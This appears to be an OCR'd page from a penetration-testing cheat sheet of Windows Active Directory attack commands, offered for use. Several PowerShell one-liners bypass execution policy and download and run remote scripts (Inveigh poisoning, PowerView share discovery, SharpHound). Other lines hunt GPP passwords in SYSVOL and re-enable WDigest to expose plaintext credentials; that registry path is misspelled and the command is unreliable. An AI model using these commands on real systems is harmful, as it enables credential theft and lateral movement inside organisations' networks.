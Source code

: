 * Invoke-Inveigh and log output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"
```

* Invoke-ShareFinder and print output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```

* Import PowerView Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

* Invoke-Bloodhound

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

* Find GPP Passwords in SYSVOL

```powershell
findstr /S cpassword $env:logonserver\sysvol\*.xml findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

* Run Powershell prompt as a different user, without loading profile to the machine

```powershell
runas /user:DOMAIN\USER /noprofile powershell.exe
```

* Insert reg key to enable Wdigest on newer versions of Windows

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```
